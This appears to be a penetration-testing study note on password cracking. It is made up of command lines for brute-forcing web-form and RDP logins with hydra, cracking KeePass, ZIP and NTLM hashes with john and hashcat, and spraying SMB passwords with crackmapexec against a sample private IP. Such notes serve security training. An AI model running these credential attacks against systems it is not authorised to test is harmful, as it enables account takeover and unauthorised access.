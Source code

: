 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)
- [RDP](#RDP)
- [KeePass DB](#KeePass-DB)
- [Zip](#Zip)
- [SMB password spraying](#SMB-password-spraying)
- [NTML hash](#NTLM-hash)

## First Rules
- Always try the default credentials!
- Search users and passwords in all available files
- Identify the hash (hashid)


## Form Login
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

## RDP
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```

## KeePass DB
``` bash
keepass2john Database.kdbx > keepass.hash                                                               ## extract the hash (*)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule  ## cracking
```
(*) The hash file was generated with the string "Database:", delete it.

## Zip
``` bash
zip2john file.zip > file.hash                               ## hash extraction
john file.hash --wordlist=/usr/share/wordlists/rockyou.txt  ## cracking
```

## SMB password spraying
``` bash
crackmapexec smb 192.168.1.1 -d domain.local -u user.txt -p passwd.txt
```

## NTML hash
hashcat -m 1000 file.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force